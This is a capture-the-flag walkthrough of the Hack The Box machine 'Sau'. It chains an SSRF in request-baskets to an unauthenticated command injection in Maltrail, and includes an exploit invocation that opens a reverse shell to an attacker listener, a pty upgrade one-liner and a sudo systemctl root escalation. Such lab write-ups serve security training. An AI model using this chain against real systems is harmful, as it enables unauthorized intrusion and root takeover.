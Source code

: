 # Sau

Linux · Easy

## Enumeration

Nmap Scan

```
nmap -sVC -p- 10.10.11.224 > sau.xml
```
![image](https://github.com/vsang181/Hackthebox/assets/28651683/c86f0873-5851-449b-9e95-a95ad9fc06a4)

Upon scanning, the following ports are identified:

- 22: SSH
- 80: Filtered
- 8338: Filtered
- 55555: Open TCP

A web page is detected on port 55555.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/f0e1b86b-7769-492a-93ab-b83b391577fc)

The webpage is powered by "request-baskets v1.2.1."

![image](https://github.com/vsang181/Hackthebox/assets/28651683/eb37339e-cf78-40b4-9ddb-15991b86ef1e)

A Google search reveals potential vulnerabilities for this version.

[request-baskets SSRF](https://notes.sjtu.edu.cn/s/MUUhEymt7#)

The system indicates that an SSRF (Server Side Request Forgery) vulnerability is present in this version. We can verify this by first creating a basket and then accessing its settings, which allow us to redirect any request made to the webpage.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/9cdf3a86-2990-424b-9608-8329ab54ec84)

Let's attempt to redirect our requests to port 80 on the IP, a port that appears to be accessible only internally.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/9a7f6e87-8871-43c3-8b42-358f24f429ee)

After conducting a quick Google search, we discovered that the "Mailtrail" version in use is vulnerable to "Unauthenticated OS Command Injection (RCE)." Moreover, an exploit for this vulnerability was found.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/5e2af3af-68c8-4fb2-a84c-691a8febf4fc)

[Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

## Exlpoitation

First, let's modify the redirection:

![image](https://github.com/vsang181/Hackthebox/assets/28651683/2ef4fc42-de20-4cb9-bde7-ddded379818c)

Next, execute the exploit with a netcat listener running in the background.

```
python3 eploit.py 10.10.14.189 1234 http://10.10.11.224:55555/vh3itq8
```
This grants us a system shell under the username "puma."

![image](https://github.com/vsang181/Hackthebox/assets/28651683/77c45748-552e-46ec-baac-0501970760ba)

## Privilege Escalation

Executing the `sudo -l` command shows that the user 'puma' can run `/usr/bin/systemctl status trail.service` as root without requiring a password.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/975518eb-7ba0-4a77-8ca7-8e83306cbaaf)

First, let's elevate our shell using the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Next, run the command (which can be executed as root without a password). 

We found the following link for our reference.

[systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Using the subsequent method, we gain access to a root terminal.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/46072be4-76ba-45fe-92ce-7a196e9893ba)

This provides us with the root flag.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/14bbf2d0-b339-4e57-b6fb-ab5da907c2a7)

## Let's Connect

I welcome your insights, feedback, and opportunities for collaboration. Together, we can make the digital world safer, one challenge at a time.

- **LinkedIn**: (https://www.linkedin.com/in/aashwadhaama/)

I look forward to connecting with fellow cybersecurity enthusiasts and professionals to share knowledge and work together towards a more secure digital environment.

